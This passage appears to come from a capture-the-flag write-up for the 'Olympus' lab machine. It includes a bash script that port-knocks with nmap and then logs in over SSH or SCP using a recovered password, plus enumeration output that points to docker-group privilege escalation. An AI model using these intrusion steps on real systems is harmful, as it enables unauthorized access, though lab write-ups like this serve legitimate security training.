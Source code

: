 As SSH on port 22 seems to be filtered, this message seems to tell that port knocking should be used to access the server as user prometheus. The password is probably `St34l_th3_F1re!`.

Those assumtions were true. I wrote the following quick (and dirty) script to automate the procedure of connecting to SSH on port 22 or moving files to the box via SCP: 

```bash
#!/bin/bash

mode=$1
src=$2
target=$3

echo "Knocking..."
for x in 3456 8234 62431; do
        nmap -Pn --host-timeout 201 --max-retries 0 -p $x 10.10.10.83
done

export SSHPASS="St34l_th3_F1re!"

if [ "$mode" = "ssh" ]; then
        sshpass -e ssh "prometheus@10.10.10.83"
else
        sshpass -e scp -r "prometheus@10.10.10.83:$src" "$target"
fi
```

This time, the user flag is present in the home directory.


## root

Besides the user flag, another help-of-gods file could be found in the user directory, containing another cryptic message: 

```bash
prometheus@olympus:~$ ls
msg_of_gods.txt  user.txt
prometheus@olympus:~$ cat msg_of_gods.txt

Only if you serve well to the gods, you'll be able to enter into the

      _
 ___ | | _ _ ._ _ _  ___  _ _  ___
/ . \| || | || ' ' || . \| | |<_-<
\___/|_|`_. ||_|_|_||  _/`___|/__/
        <___'       |_|

```


I uploaded [linenum](https://github.com/rebootuser/LinEnum) to the box. The following information from the output could probably be useful:

```bash
[+] We're a member of the (docker) group - could possibly misuse these rights!
uid=1000(prometheus) gid=1000(prometheus) groups=1000(prometheus),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),108(netdev),111(bluetooth),999(docker)
```
